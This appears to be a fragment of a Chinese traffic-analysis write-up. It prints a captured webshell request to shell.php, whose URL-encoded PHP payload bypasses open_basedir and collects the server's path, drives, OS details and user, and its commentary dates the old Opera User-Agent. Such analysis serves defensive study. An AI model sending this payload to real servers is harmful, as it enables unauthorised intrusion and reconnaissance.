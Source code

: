
数据包

```plaintext
POST /shell.php HTTP/1.1
Host: 192.168.6.112:8080
Accept-Encoding: gzip, deflate
User-Agent: Opera/9.80 (Windows NT 6.1; Opera Tablet/15165; U; en) Presto/2.8.149 Version/11.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 1749
Connection: close

1=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(%22%2F%3B%7C%3A%2F%22%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.b59d502%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%2280db0%22.%22e85832%22%3Becho%20%40asenc(%24output)%3Becho%20%22ec1b%22.%2279bff%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B
```

相比于普通用户，分析这里的UA[User-Agent 查询](https://useragentstring.com/) ，可以知道，11年的老古董ua头了

`User-Agent`: `Opera/9.80 (Windows NT 6.1; Opera Tablet/15165; U; en) Presto/2.8.149 Version/11.1`

